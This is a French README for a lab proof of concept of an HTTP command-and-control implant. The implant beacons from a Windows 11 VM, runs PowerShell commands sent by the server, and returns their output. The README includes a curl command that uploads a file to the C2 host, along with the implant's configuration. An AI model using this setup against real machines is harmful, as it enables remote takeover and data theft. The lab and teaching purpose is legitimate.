


# POC : Communication HTTP entre un implant et un serveur C2

## 1. Présentation du projet

Ce POC a pour objectif de démontrer une communication de commande et de contrôle
(C2) basée sur HTTP entre un implant exécuté sur une machine virtuelle Windows 11
et un serveur exécuté sur la machine hôte.

L'implant contacte périodiquement le serveur, appelé **beaconing**, afin de :

- transmettre le résultat de la commande précédente ;
- récupérer une nouvelle commande à exécuter ;
- maintenir une communication régulière avec le serveur.

Les échanges ont été observés avec Wireshark afin de vérifier les requêtes HTTP,
leurs en-têtes et leur contenu.

> **Périmètre du POC :** cette démonstration a été réalisée dans un
> environnement de laboratoire isolé, avec une VM Windows 11 sous VirtualBox.
> Le code n'implémente ni chiffrement TLS, ni authentification, ni contrôle
> d'accès et ne doit pas être exposé sur un réseau non maîtrisé.

## 2. Architecture

- **Serveur C2 :** machine hôte, à l'adresse `10.84.107.141`.
- **Implant :** machine virtuelle Windows 11 sous VirtualBox.
- **Protocole applicatif :** HTTP.
- **Port d'écoute :** `8000`.
- **Format des beacons :** JSON envoyé avec la méthode `POST`.
- **Exécution des commandes :** PowerShell côté implant.
- **Capture réseau :** Wireshark.

Le serveur écoute sur `0.0.0.0:8000`, ce qui lui permet de recevoir des
connexions sur ses interfaces réseau. L'implant utilise l'URL configurée dans
`client/implant.py`.

## 3. Technologies utilisées

- **Python 3** : implémentation du client et du serveur.
- **`urllib.request`** : envoi des requêtes HTTP depuis l'implant.
- **`http.server.HTTPServer`** : serveur HTTP minimal côté C2.
- **PowerShell** : interprétation des commandes reçues par l'implant.
- **VirtualBox** : exécution de la machine virtuelle Windows 11.
- **Wireshark** : observation et analyse du trafic réseau.

Aucune dépendance Python externe n'est nécessaire : le POC utilise uniquement la
bibliothèque standard.

## 4. Structure du projet

- `client/implant.py` : implant exécuté sur la machine virtuelle Windows 11.
- `server/c2.py` : serveur HTTP C2 exécuté sur la machine hôte.
- `README.md` : documentation du POC.

## 5. Fonctionnement de l'implant

### Initialisation

Au démarrage, l'implant :

1. génère un identifiant de session aléatoire de huit caractères ;
2. affiche son identifiant et l'URL du C2 ;
3. initialise le résultat précédent à une chaîne vide.

L'URL et les principaux paramètres sont définis dans `client/implant.py` :

```python
C2_URL = "http://10.84.107.141:8000"
BEACON_INTERVAL = 5
REQUEST_TIMEOUT = 5
```

### Requête de beacon

À chaque itération, l'implant envoie une requête `POST` au C2 avec un corps JSON
de la forme suivante :

```json
{
  "sid": "a1b2c3d4",
  "output": "résultat de la commande précédente"
}
```

La requête contient notamment les en-têtes suivants :

```text
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) ...
```

Le serveur répond avec un objet JSON contenant la prochaine commande :

```json
{
  "cmd": "whoami"
}
```

Si aucune commande n'est disponible, le champ `cmd` est vide.

### Exécution d'une commande

Lorsqu'une commande est reçue, elle est exécutée avec PowerShell :

```text
powershell -NoProfile -Command <commande>
```

La sortie standard et la sortie d'erreur sont regroupées puis envoyées lors du
beacon suivant. Une commande est limitée à 30 secondes d'exécution. En cas de
timeout ou d'erreur, un message explicite est conservé comme résultat.

Après chaque échange, l'implant attend cinq secondes avant d'effectuer un
nouveau beacon. Une erreur réseau n'arrête pas la boucle : elle est affichée
localement et l'implant tente un nouvel échange au cycle suivant.

## 6. Fonctionnement du serveur C2

Le serveur est créé avec `HTTPServer` et écoute sur :

```text
0.0.0.0:8000
```

Une file globale, `command_queue`, contient les commandes saisies dans le
terminal du serveur. À chaque requête reçue, le serveur retire au maximum une
commande de cette file et la renvoie dans la réponse JSON.

Exemple de séquence :

1. l'opérateur saisit `whoami` dans le terminal du C2 ;
2. la commande est ajoutée à `command_queue` ;
3. l'implant effectue son prochain `POST` ;
4. le serveur renvoie `{"cmd": "whoami"}` ;
5. l'implant exécute la commande ;
6. le résultat est transmis lors du beacon suivant.

Dans la version actuelle, l'identifiant `sid` est transmis par l'implant mais
n'est pas utilisé pour maintenir une file de commandes séparée par session.
Toutes les sessions partagent donc la même file globale.

## 7. Transfert de fichiers prévu par le serveur

Le serveur possède également un chemin de traitement pour les données binaires.
Une requête `POST` est considérée comme un upload si elle contient :

- l'en-tête `X-Filename` ; ou
- le type `Content-Type: application/octet-stream`.

Le nom est réduit à son nom de fichier avec `os.path.basename`, puis le contenu
est écrit dans le répertoire courant du serveur. Par exemple :

```powershell
curl.exe -X POST "http://10.84.107.141:8000/" `
  -H "Content-Type: application/octet-stream" `
  -H "X-Filename: topsecret.txt" `
  --data-binary "@topsecret.txt"
```

Ce mécanisme est présent côté serveur pour le POC, mais l'implant fourni
n'effectue pas automatiquement d'upload de fichier.

## 8. Mise en place de l'environnement

### Côté serveur

Sur la machine hôte, vérifier que l'adresse configurée dans l'implant correspond
bien à l'adresse IP accessible depuis la VM, puis lancer :

```powershell
python .\server\c2.py
```

Le serveur affiche :

```text
[*] C2 en écoute sur 0.0.0.0:8000
[*] Tape une commande + Entrée pour l'envoyer au prochain beacon.
[*] Ctrl+C pour quitter.
```

Le pare-feu Windows doit autoriser les connexions entrantes sur le port `8000`
depuis le réseau utilisé par la VM.

### Côté machine virtuelle

Copier `client\implant.py` dans la VM Windows 11 et vérifier la valeur de
`C2_URL`. Depuis la VM, lancer :

```powershell
python .\implant.py
```

L'implant doit afficher son identifiant de session et l'URL du serveur. Une
connexion fonctionnelle se traduit ensuite par des requêtes `POST` régulières
vers l'adresse de l'hôte.

## 9. Observation avec Wireshark

La capture doit être réalisée sur l'interface réseau utilisée par VirtualBox.
Le filtre d'affichage suivant permet de limiter les résultats au port du C2 :

```text
tcp.port == 8000
```

Pour afficher uniquement les requêtes HTTP :

```text
http.request
```

Les éléments observables sont notamment :

- une requête `POST` toutes les cinq secondes environ ;
- l'adresse IP de la VM comme émetteur ;
- l'adresse IP de l'hôte et le port `8000` comme destination ;
- l'en-tête `Content-Type: application/json` ;
- le champ `sid` identifiant la session ;
- le champ `output` contenant le résultat précédent ;
- la réponse JSON contenant le champ `cmd`.

Comme le protocole utilisé est HTTP en clair, le contenu JSON et les commandes
sont lisibles directement dans Wireshark, par exemple avec **Follow >
HTTP Stream**.

### Captures réalisées

La première capture montre les échanges réguliers entre l'implant
(`10.0.2.15`) et le serveur C2 (`192.168.1.92`) sur le port `8000`. Les
requêtes `POST` et les réponses `HTTP/1.0 200 OK` apparaissent
successivement dans Wireshark. La capture montre également une requête binaire
avec l'en-tête `X-Filename: topsecret.txt`.



La seconde capture permet d'observer le contenu d'un beacon JSON réassemblé.
Les champs `sid` et `output` sont visibles dans la requête, ce qui confirme
que l'implant transmet son identifiant de session ainsi que le résultat de la
commande précédente au serveur.



## 10. Tests réalisés

Les tests ont porté sur les éléments suivants :

- démarrage du serveur sur la machine hôte ;
- démarrage de l'implant dans la VM Windows 11 ;
- réception régulière des beacons ;
- envoi d'une commande depuis le terminal du serveur ;
- exécution de la commande par PowerShell ;
- retour du résultat au beacon suivant ;
- observation des échanges dans Wireshark ;
- gestion d'une indisponibilité temporaire du serveur par l'implant ;
- réception d'un fichier via une requête binaire dédiée.

### Résultat observé

La communication a été validée entre la machine hôte et la VM Windows 11. Les
requêtes HTTP générées par l'implant ont été visibles dans Wireshark et la
commande saisie côté serveur a été exécutée dans la VM, avec son résultat
retourné lors de l'échange suivant.

## 11. Limites et améliorations possibles

### Limites identifiées

- **HTTP en clair :** les commandes, les résultats et les identifiants de
  session peuvent être observés ou modifiés sur le réseau.
- **Absence d'authentification :** le serveur ne vérifie pas l'identité de
  l'implant et l'implant ne vérifie pas l'identité du serveur.
- **File globale :** les commandes ne sont pas associées à un `sid` précis.
- **Serveur mono-thread :** `HTTPServer` ne fournit pas de traitement concurrent
  adapté à plusieurs implants.
- **Persistance absente :** l'implant doit être lancé manuellement et ne
  redémarre pas automatiquement.
- **Gestion limitée des erreurs :** les erreurs sont affichées localement, sans
  journalisation centralisée ni mécanisme de reprise avancé.
- **Périmètre expérimental :** le code sert à démontrer le fonctionnement d'un
  beacon HTTP et ne constitue pas un outil prêt pour la production.

### Améliorations possibles

- remplacer HTTP par HTTPS avec une validation correcte des certificats ;
- ajouter une authentification mutuelle et une gestion de secrets ;
- associer les commandes et les résultats à chaque `sid` ;
- ajouter une gestion explicite des sessions, des délais et des reconnexions ;
- valider et limiter les tailles de commandes, de réponses et de fichiers ;
- journaliser les événements côté serveur ;
- ajouter des tests automatisés pour les beacons, les erreurs réseau et les
  uploads ;
- restreindre le serveur à l'interface réseau du laboratoire au lieu de
  l'exposer sur `0.0.0.0`.

## 12. Références

- Documentation Python de `urllib.request`.
- Documentation Python de `http.server`.
- Documentation officielle de PowerShell.
- Documentation officielle de VirtualBox.
- Documentation officielle de Wireshark.
